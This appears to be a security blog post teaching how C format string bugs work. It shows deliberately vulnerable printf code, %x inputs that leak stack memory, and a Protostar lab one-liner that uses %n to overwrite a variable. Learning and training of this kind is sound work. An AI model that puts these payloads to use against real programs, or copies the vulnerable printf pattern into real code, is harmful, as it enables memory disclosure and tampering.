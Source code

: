 ```yaml
---
layout: post
title: "2024-06-18-format string bug"
date: 2024-06-18
categories: binary-exploitation
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /format-string-bug/
---
```


# Format String Bug

Some notes on what a format string bug is and how it looks like in real life.

## Overview

Format String bug appears in programs written in C, which means this bug is applicable to all operating systems that have a C compiler, or in other words - most of OSes.

## What is Format String?

> **printf format string** refers to a control parameter used by a class of [functions](https://en.wikipedia.org/wiki/Function\_\(computer\_science\)) in the input/output libraries of [C](https://en.wikipedia.org/wiki/C\_\(programming\_language\)) and many other [programming languages](https://en.wikipedia.org/wiki/Programming\_languages). The string is written in a simple [template language](https://en.wikipedia.org/wiki/Template\_language): characters are usually copied literally into the function's output, but **format specifiers**, which start with a [`%`](https://en.wikipedia.org/wiki/Percent\_sign) character, indicate the location and method to translate a piece of data (such as a number) to characters.\
> [\
> https://en.wikipedia.org/wiki/Printf\_format\_string](https://en.wikipedia.org/wiki/Printf\_format\_string)

In other words, format string allows the programmer to specify how a certain value, say a floating-point number such as money savings, should be printed to the screen.

Let's look at the below code example, where the `savings` variable is defined as a floating value of `345.82`, which is printed to the screen with `printf`, using the format string `Savings: $%f`:

```
The `%f` in the format string tells the `printf()` to print the value of `savings` as a floating-point value.
```

{% code title="fmt-00.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        double savings = 345.82;
        
        // The first argument is the format string.
        // It tells printf to print the value of savings as a floating value.
        printf("Savings: $%f", savings);
        return 0;
}
```
{% endcode %}

Let's compile, run the code and observe the result:

```
gcc .\fmt-00.c -o fmt-00.exe; .\fmt-00.exe
```

...we can see that the `savings` value was printed with 6 decimal places:

![](<../../../.gitbook/assets/image (1076).png>)

However, `$345.820000` is not the precision we need when dealing with money, so it would look better if the value only had 2 decimal places, such as `$345.82`. With the help of format string `Savings: $%.2f`, we can achieve exactly that:

![](<../../../.gitbook/assets/image (1077).png>)

## What is Format String Bug?

Programs become vulnerable to the format string bug when user supplied data is included in the format string the program uses to display the data when in print functions such as (not limited to):

```c
printf
fprintf
sprintf
snprintf
...
```

## Memory Read

Format string vulnerabilities make it possible to read stack memory of the vulnerable program.

Let's look at the sample code provided below, that takes in the user supplied argument 1 and uses it in inside the function `printf`, which means that the user's supplied string is used as a format string for the <mark style="color:blue;">`printf`</mark> function:

{% code title="fmt.c" %}
```c
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        if( argc != 2 )
        {
                printf("Error - supply a format string please\n");
                return 1;
        }

        printf( argv[1] );
        printf( "\n" );

        return 0;
}
```
{% endcode %}

Let's compile and run the program without feeding it any strings first:

```
gcc .\fmt.c -o fmt.exe; .\fmt.exe
```

![](<../../../.gitbook/assets/image (1078).png>)

Let's now supply a string format, say `Testing: 0x%x`:

```
gcc .\fmt.c -o fmt.exe; .\fmt.exe "Testing: 0x%x"
```

![](<../../../.gitbook/assets/image (1081).png>)

Considering the fact that the format string is supplied, but the corresponding variable is not (which would be provided in the program written by a programmer, however in our case we are supplying the format string to the program via a commandline argument without associated variables), the program simply **starts reading values from the stack memory**. Note that there is nothing preventing us from reading even multiple values from the stack too:

```
gcc .\fmt.c -o fmt.exe; .\fmt.exe "Reading stack memory: 0x%x 0x%x 0x%x 0x%x"
```

![](<../../../.gitbook/assets/image (1080).png>)

The above example illustrates how it may be possible to abuse this bug to read program's stack memory, which may reveal some sensitive information, such as authentication passwords.

## Memory Write

Format string vulnerabilities make it possible to write to arbitrary memory locations inside the vulnerable program.

To see this in action, we're going to use the following purposely vulnerable code from:

{% embed url="https://exploit.education/protostar/format-one" %}

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

```
./format1 "` python -c "print 'AAAA' + 'x38\x96\x04\x08' + 'BBBBBBBBBBBBBBBBBBBBBB' + '%x '*128 " `"; echo
```

### Exploit

```
./format1 "` python -c "print 'AAAA' + 'x38\x96\x04\x08' + 'BBBBBBBBBBBBBBBBBBBBBB' + '%x '*127 + '%n ' " `"; echo
```

```
It's possible to abuse format bugs to execute shellcode, but I could not get my dev environment setup to reproduce the exploitation examples found in the book and online, so these notes are parked for the time being.
```

## References

{% embed url="https://www.wiley.com/en-gb/The+Shellcoder%27s+Handbook%3A+Discovering+and+Exploiting+Security+Holes%2C+2nd+Edition-p-9780470080238" %}

[https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)
@spotheplanet
